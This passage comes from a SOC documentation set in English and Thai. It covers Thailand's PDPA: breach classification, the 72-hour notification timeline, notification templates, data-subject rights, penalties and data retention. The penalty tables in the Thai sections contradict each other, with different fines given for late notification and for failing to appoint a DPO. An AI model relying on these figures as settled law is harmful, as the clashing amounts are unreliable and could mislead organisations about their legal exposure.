   [List containment and remediation steps]

6. Risk to Data Subjects
   [Assessment of potential harm]

7. Individual Notification
   [ ] Planned  [ ] Completed  [ ] Not Required
```

## Data Protection Impact Assessment (DPIA) for SOC Tools

Before deploying new SOC tools that process personal data:

| Question | Answer | If Yes |
|:---|:---|:---|
| Does the tool process PII? | Yes/No | Continue DPIA |
| Large-scale processing? | Yes/No | DPO sign-off required |
| Cross-border data transfer? | Yes/No | Safeguards required |
| Automated decision-making? | Yes/No | Transparency obligations |
| New technology involved? | Yes/No | Risk assessment required |

## Related Documents

- [Data Handling Protocol](../06_Operations_Management/Data_Handling_Protocol.en.md)
- [IR Framework](../05_Incident_Response/Framework.en.md)
- [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md)

## References

- [PDPA B.E. 2562 (Official)](https://www.pdpc.or.th/)
- [GDPR Comparison Guide](https://gdpr.eu/)


---

## File: 07_Compliance_Privacy/PDPA_Compliance.th.md

# ขั้นตอนปฏิบัติตาม PDPA (PDPA Compliance SOP)

เอกสารนี้ระบุขั้นตอนของ SOC ในการจัดการข้อมูลส่วนบุคคลตาม **พ.ร.บ. คุ้มครองข้อมูลส่วนบุคคล พ.ศ. 2562 (PDPA)**

---

## การจำแนกข้อมูล

| ประเภท | ตัวอย่าง | การจัดการ |
|:---|:---|:---|
| **PII ทั่วไป** | ชื่อ, อีเมล, โทรศัพท์, IP address, รหัสพนักงาน | บันทึกการเข้าถึง, จำกัดระยะเวลาเก็บ |
| **PII อ่อนไหว** | เลขบัตรประชาชน, ข้อมูลสุขภาพ, ข้อมูลชีวมิติ | เข้ารหัส, จำกัดสิทธิ์เข้าถึง, audit trail |
| **ไม่ใช่ PII** | System logs ที่ไม่มี user identifiers, hash values | จัดการปกติ |

## ความรับผิดชอบของ SOC Analyst

1. **ลดให้น้อยที่สุด** — เข้าถึงเฉพาะข้อมูลส่วนบุคคลที่จำเป็นสำหรับการสืบสวน
2. **จำกัดวัตถุประสงค์** — ใช้ข้อมูลเฉพาะเพื่อการตอบสนองต่อเหตุการณ์ความปลอดภัย
3. **การเก็บรักษา** — ลบ PII จากบันทึกการสืบสวนหลังปิดเคส
4. **การควบคุมการเข้าถึง** — แบ่งปัน PII เฉพาะผู้ที่ได้รับอนุญาตตาม need-to-know
5. **การบันทึก** — ทุกการเข้าถึง PII ต้องบันทึกในระบบ

## ข้อกำหนดแจ้งเตือนการรั่วไหล

| เงื่อนไข | ระยะเวลา | แจ้ง |
|:---|:---|:---|
| ตรวจพบ data breach | **≤ 72 ชั่วโมง** | DPO → สำนักงาน คปส. |
| การรั่วมีผลต่อเจ้าของข้อมูล | โดยเร็ว | เจ้าของข้อมูลที่ได้รับผลกระทบ |
| การรั่วความเสี่ยงสูง (ข้อมูลอ่อนไหว) | ทันที | DPO → สำนักงาน คปส. → เจ้าของข้อมูล |

## สิทธิของเจ้าของข้อมูล

| สิทธิ | ผลกระทบต่อ SOC | การดำเนินการ |
|:---|:---|:---|
| **สิทธิในการเข้าถึง** | เจ้าของข้อมูลอาจขอสำเนา PII | ส่งต่อคำขอไปยัง DPO |
| **สิทธิในการลบ** | เจ้าของข้อมูลอาจขอลบข้อมูล | DPO ประเมิน; SOC เก็บไว้หากจำเป็นสำหรับคดี |
| **สิทธิในการแก้ไข** | เจ้าของข้อมูลอาจขอแก้ไข | ส่งต่อไปยัง DPO |
| **สิทธิในการคัดค้าน** | เจ้าของข้อมูลอาจคัดค้านการประมวลผล | DPO ประเมิน |
| **สิทธิในการโอนย้าย** | เจ้าของข้อมูลอาจขอส่งออก | ส่งต่อไปยัง DPO |

## การประสานงาน DPO

| สถานการณ์ | การดำเนินการของ SOC | การดำเนินการของ DPO | กรอบเวลา |
|:---|:---|:---|:---|
| พบ PII ในการสอบสวน | บันทึกการเข้าถึง, จำแนกข้อมูล | รับแจ้งเพื่อกำกับดูแล | ทันที |
| สงสัยว่ามีการละเมิดข้อมูล | ยกระดับไปยัง DPO | ประเมินภาระการแจ้งเตือน | ≤ 72 ชั่วโมง |
| ได้รับคำขอจากเจ้าของข้อมูล | ส่งต่อไปยัง DPO | ดำเนินการและตอบกลับ | ≤ 30 วัน |

## รายการตรวจสอบ PDPA

| รายการ | ความถี่ | ผู้รับผิดชอบ | สถานะ |
|:---|:---|:---|:---:|
| เปิดใช้งานการบันทึกการเข้าถึง PII | รายเดือน | SOC Engineer | ☐ |
| ติดป้ายจำแนกข้อมูลในทุกคดี | ทุกคดี | นักวิเคราะห์ | ☐ |
| ทดสอบ SOP การแจ้งเตือนละเมิด | รายไตรมาส | SOC Manager | ☐ |
| ข้อมูลติดต่อ DPO เป็นปัจจุบัน | รายเดือน | SOC Manager | ☐ |
| อบรม PDPA สำหรับทีม SOC ทั้งหมด | รายปี | HR + SOC Manager | ☐ |

## การจัดการหลักฐานที่มี PII

1. **ลดให้น้อย** — ตัด PII ออกจากบันทึกการสืบสวนเมื่อไม่จำเป็น
2. **เข้ารหัส** — จัดเก็บหลักฐานที่มี PII ในพื้นที่เข้ารหัสเท่านั้น
3. **ติดป้าย** — ทำเครื่องหมาย `TLP:RED` หรือ `TLP:AMBER` ในทุกเอกสารที่มี PII
4. **บันทึกการเข้าถึง** — Log ทุกการเข้าถึงหลักฐานที่มี PII
5. **การเก็บรักษา** — ลบ PII จากพื้นที่ทำงานหลังปิดคดี
6. **การส่งต่อ** — ห้ามส่ง PII ผ่านช่องทางไม่เข้ารหัส (ไม่ใช้อีเมลธรรมดา)

## กระบวนการตอบสนองเมื่อมีการละเมิดข้อมูล




## บทลงโทษ PDPA

| การละเมิด | บทลงโทษ | หมายเหตุ |
|:---|:---|:---|
| ไม่แจ้งข้อมูลรั่วภายใน 72 ชม. | ≤ 5 ล้านบาท | ต่อเหตุการณ์ |
| เก็บข้อมูลโดยไม่ได้ consent | ≤ 5 ล้านบาท | โทษทางปกครอง |
| เปิดเผยข้อมูลส่วนบุคคลโดยไม่ได้รับอนุญาต | ≤ 5 ล้านบาท + อาญา | จำคุกไม่เกิน 1 ปี |
| ไม่แต่งตั้ง DPO (เมื่อต้องแต่งตั้ง) | ≤ 3 ล้านบาท | องค์กร >50 คน |
| ส่งข้อมูลข้ามแดนโดยไม่มีมาตรการคุ้มครอง | ≤ 5 ล้านบาท | ต้องมี adequate protection |

> ⚠️ **โทษอาญา** ใช้กับบุคคลที่เปิดเผยข้อมูลที่ได้มาจากหน้าที่เพื่อประโยชน์ส่วนตัว — **จำคุกไม่เกิน 1 ปี และ/หรือ ปรับไม่เกิน 1 ล้านบาท**

## การส่งข้อมูลข้ามแดน

SOC อาจต้องแชร์ IOCs, หลักฐาน forensic, หรือ threat intelligence กับพันธมิตรต่างประเทศ ภายใต้ PDPA มาตรา 28:

| สถานการณ์ | อนุญาต? | ข้อกำหนด |
|:---|:---|:---|
| แชร์ IOCs (hash, ไม่มี PII) กับ CERT ต่างประเทศ | ✅ ได้ | ไม่มี PII — ดำเนินการปกติ |
| ส่งหลักฐาน forensic ให้ vendor ต่างประเทศ | ⚠️ มีเงื่อนไข | Adequate protection + DPO อนุมัติ |
| Cloud SIEM เก็บ log ต่างประเทศ | ⚠️ มีเงื่อนไข | ต้องมี Data Processing Agreement |
| แชร์ PII กับ law enforcement (INTERPOL) | ✅ ได้ | ยกเว้นตามกฎหมาย |
| ส่งข้อมูลพนักงานให้ SOC ต่างประเทศ | ❌ จำกัด | ต้องมี consent ชัดเจน + adequate protection |

### มาตรการที่จำเป็นสำหรับการส่งข้อมูลข้ามแดน
```
□ Data Processing Agreement (DPA) กับผู้รับ
□ ประเทศผู้รับมีกฎหมายคุ้มครองข้อมูลเพียงพอ
   (หรือ: มี Standard Contractual Clauses)
□ DPO ตรวจสอบและอนุมัติการส่งแล้ว
□ เข้ารหัสข้อมูลระหว่างส่งและจัดเก็บ
□ มี audit log ว่าส่งข้อมูลอะไร เมื่อไร ให้ใคร
□ ตกลง retention และ deletion schedule กับผู้รับแล้ว
```

## สถานการณ์ข้อมูลรั่วที่ SOC อาจเจอ

| # | สถานการณ์ | การจำแนก | การดำเนินการ |
|:---|:---|:---|:---|
| 1 | Phishing → ขโมย credential → เข้า HR database | **ข้อมูลส่วนบุคคลรั่ว** — PII อ่อนไหว | ≤72 ชม. แจ้ง DPO + แจ้งเจ้าของข้อมูล |
| 2 | Ransomware เข้ารหัส file server ที่มีข้อมูลพนักงาน | **ข้อมูลส่วนบุคคลรั่ว** — กระทบ availability | ≤72 ชม. แจ้ง DPO (แม้ไม่ถูกขโมยออก) |
| 3 | Analyst แชร์รายงานสืบสวนที่มี PII ใน Slack | **เปิดเผยภายใน** — ละเมิดนโยบาย | รายงาน SOC Manager, DPO ประเมิน |
| 4 | Malware ส่ง customer database ไป C2 | **รั่วระดับสูง** — PII จำนวนมาก | **ทันที** DPO + PDPC + แจ้งเจ้าของข้อมูล |
| 5 | USB ที่มีหลักฐาน forensic พร้อม PII หาย | **รั่วทางกายภาพ** — อาจเปิดเผย PII | ≤72 ชม. แจ้ง DPO, ตรวจสถานะ encryption |
| 6 | Vendor SaaS ถูกเจาะ กระทบข้อมูลเรา | **Third-party breach** — ข้อมูลเราเกี่ยว | DPO ประสานงานกับ vendor, ประเมินผลกระทบ |

## ขั้นตอนแจ้งข้อมูลรั่ว 72 ชั่วโมง



### Template แจ้ง PDPC
```
เรียน: คณะกรรมการคุ้มครองข้อมูลส่วนบุคคล (PDPC)
เรื่อง: แจ้งเหตุการณ์ข้อมูลรั่ว — [ชื่อองค์กร]
วันที่: [YYYY-MM-DD]

1. ข้อมูลองค์กร
   ชื่อ: [องค์กร]
   DPO: [ชื่อ, อีเมล, เบอร์โทร]

2. รายละเอียดเหตุการณ์
   วันที่ตรวจพบ: [YYYY-MM-DD HH:MM]
   ลักษณะ: [ความลับ/ความสมบูรณ์/ความพร้อมใช้]
   คำอธิบาย: [สรุปสั้นๆ]

3. ข้อมูลที่ได้รับผลกระทบ
   ประเภท: [ชื่อ, อีเมล, เลขบัตร ฯลฯ]
   จำนวน record: [ประมาณ]
   จำนวนเจ้าของข้อมูล: [ประมาณ]

4. สถานะการควบคุม
   [ ] ควบคุมได้แล้ว  [ ] กำลังสืบสวน  [ ] ยังไม่ได้ควบคุม

5. มาตรการที่ดำเนินการ
   [รายการ containment และ remediation]

6. ความเสี่ยงต่อเจ้าของข้อมูล
   [การประเมินผลกระทบที่อาจเกิด]

7. การแจ้งเจ้าของข้อมูล
   [ ] วางแผน  [ ] ดำเนินการแล้ว  [ ] ไม่จำเป็น
```

## DPIA สำหรับเครื่องมือ SOC

ก่อนติดตั้งเครื่องมือ SOC ใหม่ที่ประมวลผลข้อมูลส่วนบุคคล:

| คำถาม | คำตอบ | ถ้าใช่ |
|:---|:---|:---|
| เครื่องมือประมวลผล PII ไหม? | ใช่/ไม่ | ทำ DPIA ต่อ |
| ประมวลผลจำนวนมาก? | ใช่/ไม่ | ต้อง DPO ลงนาม |
| ส่งข้อมูลข้ามแดน? | ใช่/ไม่ | ต้องมีมาตรการคุ้มครอง |
| ตัดสินใจอัตโนมัติ? | ใช่/ไม่ | มีหน้าที่ transparency |
| เทคโนโลยีใหม่? | ใช่/ไม่ | ต้องประเมินความเสี่ยง |

## เอกสารที่เกี่ยวข้อง

- [Data Handling Protocol](../06_Operations_Management/Data_Handling_Protocol.th.md)
- [กรอบ IR](../05_Incident_Response/Framework.th.md)

### PDPA Key Dates

| Event | Deadline |
|:---|:---|
| Breach notification (สคส.) | 72 ชั่วโมง |
| DPIA completion | ก่อนเริ่มโครงการ |
| Annual privacy review | ทุก 12 เดือน |
| DPO appointment | ตามเกณฑ์ สคส. |

## อ้างอิง

- [พ.ร.บ. คุ้มครองข้อมูลส่วนบุคคล (PDPA)](https://www.pdpc.or.th/)


---

## File: 07_Compliance_Privacy/PDPA_Incident_Response.en.md

# PDPA Incident Response Guide

> **Document ID:** PDPA-IR-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Applicable Law:** พ.ร.บ.คุ้มครองข้อมูลส่วนบุคคล พ.ศ. 2562 (PDPA)

---

## Purpose

This guide provides SOC-specific procedures for handling incidents involving **Personal Data** under Thailand's Personal Data Protection Act (PDPA). Covers the **72-hour notification** requirement, data breach classification, and regulatory reporting.

---

## When PDPA Applies

A PDPA incident occurs when:

| Trigger | Example |
|:---|:---|
| Personal data is **accessed** by unauthorized persons | Attacker reads customer database |
| Personal data is **exfiltrated** | Data sent to external server |
| Personal data is **modified** without authorization | Database records altered |
| Personal data is **destroyed/lost** | Ransomware encrypts customer data |
| Personal data is **disclosed** unintentionally | Email sent to wrong recipient |

### What is "Personal Data" under PDPA?

| Category | Examples |
|:---|:---|
| **Identifiers** | Thai national ID, passport number, driver's license |
| **Contact info** | Name, address, phone, email |
| **Financial** | Bank account, credit card, salary |
| **Health** | Medical records, health insurance |
| **Biometric** | Fingerprint, face recognition data |
| **Online** | IP address (when linkable to person), cookies, device ID |
| **Sensitive** | Religion, political opinion, criminal record, sexual orientation |

> ⚠️ **Sensitive personal data** has stricter requirements and higher penalties.

---

## 72-Hour Notification Timeline

```
Hour 0:   Data breach DETECTED
          ↓
Hour 0-4: Confirm breach involves personal data → YES → activate PDPA process
          ↓
Hour 4-24: Assess scope, blast radius, types of data affected
          ↓
Hour 24-48: Prepare notification to PDPC
          ↓
Hour 48-72: Submit notification to PDPC ← LEGAL DEADLINE
          ↓
ASAP after PDPC: Notify affected data subjects (if high risk)
```

### When to Notify

| Scenario | Notify PDPC? | Notify Data Subjects? |
|:---|:---:|:---:|
| Encrypted data stolen (encryption intact) | ⚠️ Assess | Usually no |
| Unencrypted PII exfiltrated | ✅ Yes | ✅ Yes |
| Ransomware encrypts PII | ✅ Yes | ✅ If no backup |
| Employee accesses unauthorized records | ✅ Yes | ⚠️ Assess risk |
| Phishing captures user credentials | ✅ If data accessed | ⚠️ Assess |
| Database exposed but no evidence of access | ✅ Yes | ⚠️ Assess risk |

---

## SOC Response Procedure

### Step 1: Detection & Initial Assessment (Hour 0–4)

```
□ Confirm incident involves personal data
□ Classify severity:
  - P1: Mass breach (>1,000 records) or sensitive data
  - P2: Limited breach (<1,000 records) or non-sensitive data
□ Notify SOC Manager immediately
□ Notify DPO (Data Protection Officer) immediately
□ Begin evidence preservation (per Evidence Collection SOP)
□ DO NOT attempt to hide, minimize, or delay reporting
```

### Step 2: Scope Assessment (Hour 4–24)

```
□ Identify what data was compromised:
  - Type of personal data (identifiers, financial, health, sensitive)
  - Number of data subjects affected
  - Geographic scope (Thai citizens? Cross-border?)
□ Identify how the breach occurred:
  - Attack vector
  - Vulnerability exploited
  - Duration of exposure
□ Determine if data was:
  - Viewed only vs. copied/exfiltrated
  - Encrypted at rest (breach may be less severe)
□ Check for secondary compromise
□ Document everything in incident ticket
```

### Step 3: Containment & Legal Preparation (Hour 24–48)

```
□ Contain the breach (isolate, block, patch)
□ Prepare PDPC notification with DPO/Legal:

Required information for PDPC:
  1. Name and contact of data controller
  2. Name and contact of DPO
  3. Nature of the breach
  4. Categories and approximate number of data subjects
  5. Categories and approximate number of data records
  6. Likely consequences of the breach
  7. Measures taken or proposed to address the breach
  8. Measures to mitigate adverse effects

□ Prepare data subject notification (if applicable):
  - Clear, plain language (Thai)
  - What happened
  - What data was affected
  - What they should do (change passwords, monitor accounts)
  - Who to contact for more information
  - What you are doing to prevent recurrence
```

### Step 4: Notification (Hour 48–72)

```
□ Submit notification to PDPC (Office of the Personal Data Protection Committee)
  - Email: complaint@pdpc.or.th
  - Online: https://www.pdpc.or.th
  - Reference: Section 37(4) PDPA
□ If high risk → notify affected data subjects ASAP
□ If cross-border → assess notification requirements in other jurisdictions
□ Keep copy of all notifications sent
```

### Step 5: Post-Breach (After 72 hours)

```
□ Continue investigation and remediation
□ Respond to any PDPC follow-up requests
□ Conduct Lessons Learned (use Lessons Learned Template)
□ Implement corrective measures
□ Update breach register
□ Report to management/board
□ Consider voluntary disclosure to media (PR/Legal decision)
```

---

## PDPA Penalties Reference

| Violation | Administrative Fine | Criminal Penalty |
|:---|:---:|:---:|
| Failure to notify breach to PDPC | Up to ฿5,000,000 | — |
| Failure to notify data subjects | Up to ฿5,000,000 | — |
| Unlawful processing of personal data | Up to ฿5,000,000 | Up to 1 year / ฿1,000,000 |
| Unlawful processing of sensitive data | Up to ฿5,000,000 | Up to 1 year / ฿1,000,000 |
| Cross-border transfer without safeguards | Up to ฿5,000,000 | — |
| Compensatory damages | Court-determined | — |
| Punitive damages | Up to 2× actual damages | — |

---

## Breach Register Template

Maintain a register of all data breaches (required by PDPA):

| Date | Incident ID | Description | Records Affected | Data Types | PDPC Notified | Subjects Notified | Status |
|:---|:---|:---|:---:|:---|:---:|:---:|:---|
| | | | | | ☐ | ☐ | |

---

## Key Contacts

| Role | Name | Contact |
|:---|:---|:---|
| Data Protection Officer (DPO) | ___________ | ___________ |
| Legal Counsel | ___________ | ___________ |
| CISO | ___________ | ___________ |
| PR/Communications | ___________ | ___________ |
| PDPC Hotline | — | 02-142-1033 |
| PDPC Email | — | complaint@pdpc.or.th |

---

## Related Documents

- [IR Framework](../05_Incident_Response/Framework.en.md)
- [Evidence Collection](../05_Incident_Response/Evidence_Collection.en.md)
- [Communication Templates](../05_Incident_Response/Communication_Templates.en.md)
- [Lessons Learned Template](../05_Incident_Response/Lessons_Learned_Template.en.md)
- [Compliance Mapping](../07_Compliance_Privacy/Compliance_Mapping.en.md)


---

## File: 07_Compliance_Privacy/PDPA_Incident_Response.th.md

# คู่มือตอบเหตุข้อมูลรั่วตาม PDPA

> **รหัสเอกสาร:** PDPA-IR-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **กฎหมาย:** พ.ร.บ.คุ้มครองข้อมูลส่วนบุคคล พ.ศ. 2562

---

## เมื่อไหร่ที่ PDPA เกี่ยวข้อง?

เมื่อเกิดการ **เข้าถึง / ส่งออก / แก้ไข / ทำลาย / เปิดเผย** ข้อมูลส่วนบุคคลโดยไม่ได้รับอนุญาต

### ข้อมูลส่วนบุคคลตาม PDPA

| หมวด | ตัวอย่าง |
|:---|:---|
| ข้อมูลระบุตัวตน | เลขบัตรประชาชน, หนังสือเดินทาง |
| ข้อมูลติดต่อ | ชื่อ, ที่อยู่, เบอร์โทร, email |
| ข้อมูลการเงิน | บัญชีธนาคาร, บัตรเครดิต, เงินเดือน |
| ข้อมูลสุขภาพ | ประวัติการแพทย์, ประกันสุขภาพ |
| ข้อมูลชีวมิติ | ลายนิ้วมือ, สแกนใบหน้า |
| **ข้อมูลอ่อนไหว** | ศาสนา, ความเห็นทางการเมือง, ประวัติอาชญากรรม |

---

## Timeline การแจ้ง 72 ชั่วโมง

```
ชม. 0:      ตรวจพบ data breach
ชม. 0–4:    ยืนยันว่ามีข้อมูลส่วนบุคคลเกี่ยวข้อง
ชม. 4–24:   ประเมินขอบเขต, จำนวนเจ้าของข้อมูล, ประเภทข้อมูล
ชม. 24–48:  เตรียมเอกสารแจ้ง สคส.
ชม. 48–72:  ส่งแจ้ง สคส. ← กำหนดตามกฎหมาย
หลังแจ้ง:    แจ้งเจ้าของข้อมูล (ถ้ามีความเสี่ยงสูง)
```

---

## ขั้นตอนสำหรับ SOC

### ขั้นที่ 1: ตรวจพบ & ประเมินเบื้องต้น (ชม. 0–4)

```
□ ยืนยันว่า incident เกี่ยวข้องกับข้อมูลส่วนบุคคล
□ จัดระดับ:
  - P1: รั่วมาก (>1,000 records) หรือข้อมูลอ่อนไหว
  - P2: รั่วจำกัด (<1,000 records)
□ แจ้ง SOC Manager ทันที
□ แจ้ง DPO ทันที
□ เริ่มเก็บหลักฐาน
□ ห้ามปิดบัง ลดความสำคัญ หรือล่าช้า
```

### ขั้นที่ 2: ประเมินขอบเขต (ชม. 4–24)

```
□ ข้อมูลอะไรรั่ว? (ระบุตัวตน, การเงิน, สุขภาพ, อ่อนไหว)
□ จำนวนเจ้าของข้อมูลที่ได้รับผลกระทบ
□ ขอบเขตทางภูมิศาสตร์ (คนไทย? ข้ามพรมแดน?)
□ ข้อมูลถูกดูเท่านั้น vs คัดลอก/ส่งออก
□ ข้อมูลถูกเข้ารหัสอยู่แล้วหรือไม่
```

### ขั้นที่ 3: Contain & เตรียมเอกสาร (ชม. 24–48)

```
□ Contain (isolate, block, patch)
□ เตรียมแจ้ง สคส. ร่วมกับ DPO/กฎหมาย:
  1. ชื่อ+ติดต่อผู้ควบคุมข้อมูล
  2. ชื่อ+ติดต่อ DPO
  3. ธรรมชาติของ breach
  4. ประเภท+จำนวนเจ้าของข้อมูล
  5. ประเภท+จำนวน records
  6. ผลกระทบที่อาจเกิดขึ้น
  7. มาตรการที่ดำเนินการแล้ว
  8. มาตรการบรรเทาผลกระทบ

□ เตรียมแจ้งเจ้าของข้อมูล (ภาษาไทยเข้าใจง่าย):
  - เกิดอะไรขึ้น
  - ข้อมูลอะไรได้รับผลกระทบ
  - ควรทำอะไร (เปลี่ยนรหัส, ตรวจบัญชี)
  - ติดต่อใครได้
```

### ขั้นที่ 4: แจ้งเตือน (ชม. 48–72)

```
□ ส่งแจ้ง สคส. (สำนักงานคณะกรรมการคุ้มครองข้อมูลส่วนบุคคล)
  - Email: complaint@pdpc.or.th
  - เว็บ: https://www.pdpc.or.th
  - อ้างอิง: มาตรา 37(4) พ.ร.บ.คุ้มครองข้อมูลส่วนบุคคล
□ ถ้าเสี่ยงสูง → แจ้งเจ้าของข้อมูลทันที
□ เก็บสำเนาทุกการแจ้ง
```

### ขั้นที่ 5: หลัง 72 ชม.

```
□ สืบสวนและแก้ไขต่อ
□ ตอบคำถาม สคส. (ถ้ามี)
□ ทำ Lessons Learned
□ อัปเดต breach register
□ รายงานผู้บริหาร/คณะกรรมการ
```

---

## บทลงโทษ PDPA

| การละเมิด | ค่าปรับทางปกครอง | โทษอาญา |
|:---|:---:|:---:|
| ไม่แจ้ง breach ให้ สคส. | สูงสุด ฿5,000,000 | — |
| ไม่แจ้งเจ้าของข้อมูล | สูงสุด ฿5,000,000 | — |
| ประมวลผลโดยมิชอบ | สูงสุด ฿5,000,000 | จำคุก 1 ปี / ฿1,000,000 |
| ส่งข้อมูลข้ามแดนไม่มีมาตรการ | สูงสุด ฿5,000,000 | — |
| ค่าเสียหาย + ค่าเสียหายเชิงลงโทษ | ศาลกำหนด (สูงสุด 2 เท่า) | — |

---

## ทะเบียน Breach

| วันที่ | Incident ID | คำอธิบาย | Records | ประเภทข้อมูล | แจ้ง สคส. | แจ้งเจ้าของ | สถานะ |
|:---|:---|:---|:---:|:---|:---:|:---:|:---|
| | | | | | ☐ | ☐ | |

---

## ผู้ติดต่อ

| บทบาท | ชื่อ | ติดต่อ |
|:---|:---|:---|
| DPO | ___________ | ___________ |
| ที่ปรึกษากฎหมาย | ___________ | ___________ |
| CISO | ___________ | ___________ |
| สคส. | — | 02-142-1033 / complaint@pdpc.or.th |

---

## PDPA Breach Notification Timeline



## เกณฑ์การพิจารณาแจ้ง

| ปัจจัย | ต้องแจ้ง | ไม่ต้องแจ้ง |
|:---|:---|:---|
| ข้อมูลถูก exfiltrate confirmed | ✅ | — |
| ข้อมูล sensitive (สุขภาพ, การเงิน) | ✅ | — |
| จำนวนเจ้าของข้อมูล > 500 | ✅ | — |
| ข้อมูล encrypted + key ไม่ถูก compromise | — | ✅ |
| Access log only, no PII accessed | — | ✅ |

## Breach Notification Contents (ตาม ม.37)

| ส่วน | เนื้อหาที่ต้องระบุ |
|:---|:---|
| **ลักษณะการละเมิด** | อธิบายว่าเกิดอะไร, อย่างไร |
| **ข้อมูลที่ได้รับผลกระทบ** | ประเภท + จำนวนโดยประมาณ |
| **ผลกระทบที่อาจเกิด** | ความเสี่ยงต่อเจ้าของข้อมูล |
| **มาตรการแก้ไข** | สิ่งที่ดำเนินการแล้ว + แผนเพิ่มเติม |
| **ข้อมูล DPO** | ชื่อ, ช่องทางติดต่อ |
| **คำแนะนำ** | สิ่งที่เจ้าของข้อมูลควรทำ |

## PDPA Fines & Penalties

| ฝ่าฝืน | โทษสูงสุด |
|:---|:---|
| ไม่แจ้ง breach ภายใน 72 ชม. | 3 ล้านบาท |
| ไม่มีมาตรการรักษาความปลอดภัย | 5 ล้านบาท |
| ข้อมูลรั่วไหลจากความประมาท | 5 ล้านบาท + โทษอาญา |
| ไม่แต่งตั้ง DPO (กรณีที่ต้องมี) | 1 ล้านบาท |

### PDPA Notification Timeline

| Event | Action | Deadline |
|:---|:---|:---|
| Breach detected | Internal triage | ทันที |
| Impact assessed | DPO notification | 24 ชม. |
| Reportable breach | แจ้ง สคส. | 72 ชม. |
| Data subject notice | แจ้งเจ้าของข้อมูล | โดยไม่ชักช้า |

### Key PDPA Contacts

| Role | Responsibility |
|:---|:---|
| DPO | Oversee compliance |
| IR Lead | Manage response |
| Legal | Regulatory liaison |

## เอกสารที่เกี่ยวข้อง

- [IR Framework](../05_Incident_Response/Framework.th.md)
- [เก็บหลักฐาน](../05_Incident_Response/Evidence_Collection.th.md)
- [แม่แบบ Lessons Learned](../05_Incident_Response/Lessons_Learned_Template.th.md)
- [Compliance Mapping](Compliance_Mapping.th.md)


---

## File: 02_Platform_Operations/Database_Management.en.md

# Data Governance & Retention Policy

This document outlines the standard procedures for managing security data throughout its lifecycle.

## 1. Data Classification

```mermaid
graph TD
    Data[Data Ingestion] --> Classify{Classify Data}
    Classify -->|Restricted| Encrypt[Encrypt & Restrict]
    Classify -->|Confidential| Secure[Access Control]
    Classify -->|Internal| Store[Standard Storage]
    Encrypt --> Retain[Retention Policy]
    Secure --> Retain
    Store --> Retain
    Retain --> Archive[Archive/Purge]
```

Data within the SOC must be classified to determine appropriate handling and retention controls:
-   **Restricted**: Sensitive PII, Credentials, Private Keys. (Highest Protection)
-   **Confidential**: Internal IP, Network Diagrams, Vulnerability Reports.
-   **Internal**: Standard operational logs.
-   **Public**: Publicly available threat intelligence.

## 2. Retention Policy

### 2.1 Hot Storage (Immediate Access)
-   **Duration**: 30 - 90 Days.
-   **Purpose**: Real-time analysis, correlation, and immediate incident investigation.
-   **Technology**: High-performance storage (SSD/NVMe) usually within the SIEM.

### 2.2 Cold Storage (Long-term Archive)
-   **Duration**: 1 Year - 7 Years (based on compliance requirements like PCI-DSS, GDPR).
-   **Purpose**: Forensic analysis, historical trending, compliance audits.
-   **Technology**: Object Storage (S3, Blob) or Tape backup.

## 3. Data Integrity & Security

-   **Encryption**:
    -   **In-Transit**: TLS 1.2+ for all log forwarding.
